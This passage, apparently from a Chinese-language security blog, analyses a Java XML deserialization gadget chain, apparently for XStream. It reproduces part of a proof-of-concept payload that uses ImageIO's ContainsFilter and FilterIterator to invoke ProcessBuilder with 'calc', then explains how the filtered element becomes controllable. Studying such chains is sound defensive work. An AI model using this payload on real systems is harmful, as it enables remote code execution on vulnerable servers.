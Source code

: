 ```xml
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

两个POC大同小异，最不同点在FilterIterator的构造，涉及到filter.filter(elt) 中的elt是如何实现可控的

### [](#控制elt "控制elt")控制elt

这里是FilterIterator类的代码，目标是控制filter.filter(elt)中的elt，注意比较两个POC在FilterIterator这里的区别

```java
#javax.imageio.spi.FilterIterator
    private Iterator<T> iter;
    private ServiceRegistry.Filter filter;

    private T next = null;

    private void advance() {
        while (iter.hasNext()) {
            T elt = iter.next();
            if (filter.filter(elt)) {
                next = elt;
                return;
            }
        }
        next = null;
    }
    public boolean hasNext() {
        return next != null;
    }
    public T next() {
```